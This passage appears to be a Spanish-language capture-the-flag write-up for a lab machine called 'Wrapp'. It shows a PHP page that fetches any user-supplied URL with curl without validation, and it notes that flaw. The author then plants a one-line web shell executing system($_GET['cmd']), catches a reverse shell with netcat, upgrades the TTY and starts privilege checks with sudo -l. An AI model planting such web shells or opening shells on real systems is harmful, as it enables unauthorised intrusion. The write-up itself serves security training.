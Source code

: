 ```php
	<h1>Welcome to the private search</h1>
    <p>Here you will be able to load any page you want. You won't have to worry about revealing your IP anymore!</p>
    <br>
    <form method="GET" action="path.php">
        <input type="text" value="Website to load..." name="path">
        <input type="submit" value="Submit">
    </form>
</div>
    </body>
</html>
```
```php
<?php
    $location=$_GET['path']; // Get the URL from the user.
    $curl = curl_init();
    curl_setopt ($curl, CURLOPT_URL, $location); // Not validating the input. Trusting the location variable
    curl_exec ($curl);
    curl_close ($curl);
?
```
Por lo tanto creo un archivo **cmd** facil para mandarme un reverse-shell a traves de la pagina web
```bash
edward@wrapp:/var/www/html/advanced-search$ touch cmd.php
edward@wrapp:/var/www/html/advanced-search$ ls
cmd.php  index.php  path.php
edward@wrapp:/var/www/html/advanced-search$ chmod +x cmd.php 
edward@wrapp:/var/www/html/advanced-search$ ls
cmd.php  index.php  path.php
edward@wrapp:/var/www/html/advanced-search$
```
```bash
edward@wrapp:/var/www/html/advanced-search$ cat cmd.php 
```
```php
<?php
	system($_GET['cmd']);
?>
```
![reverse-shell]({{'/assets/img/Wrapp/wrapp-reverseshell.png' | relative_url}})
# Tratamiento TTY
```bash
script /dev/null -c bash
CNTRL + Z
stty raw -echo; fg
reset xterm
```
Me conecto como el usuario www-data y con este usuario puedo ejecutar un binario 
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.2.128] from (UNKNOWN) [192.168.2.23] 59556
bash: cannot set terminal process group (440): Inappropriate ioctl for device
bash: no job control in this shell
www-data@wrapp:/var/www/html/advanced-search$ whoami 
www-data
www-data@wrapp:/var/www/html/advanced-search$ sudo -l
sudo -l
Matching Defaults entries for www-data on wrapp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

```